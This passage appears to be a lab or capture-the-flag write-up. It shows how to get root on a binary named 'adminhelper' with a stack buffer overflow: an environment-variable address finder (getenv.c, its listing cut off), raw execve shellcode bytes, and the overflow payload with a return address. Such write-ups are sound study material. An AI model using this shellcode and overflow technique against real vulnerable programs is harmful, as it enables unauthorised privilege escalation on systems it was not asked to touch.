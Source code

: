 shellcode:

    [had to remove the shellcode]

Leading us to getenv.c

    /* yaojingguo commented on Nov 8, 2016The code is from Page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition . */                 
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    
    int main(int argc, char *argv[]) {
            char *ptr;
    
            if(argc < 3) {
                    printf("Usage: %s <environment variable> <target program name>\n", argv[0]);                                                  
                    exit(0);
            }
            ptr = getenv(argv[1]); /* get env var location */
            ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */                                                           
            printf("%s will be at %p\n", argv[1], ptr);
    

this try to inject an environment variable into the program. Use this script to find an injectable address

Create an variable via export with shellcode from above. In the end this will return the exploit address of the shell code.

    export SHELLCODE=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`

see the variable created in env

    env

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552840405389_image.png)


after compiling the getenv.c to an application we will execute the variable within the application

    ./getenv SHELLCODE ./adminhelper

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552840526543_image.png)


results in our shellcode being placed at `0x7fffffffed68`


# Root

next, we run the ./adminhelper with our initial payload of “A” and add our return address to our shellcode in little  little endian format.


    ./adminhelper AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x68\xed\xff\xff\xff\x7f
    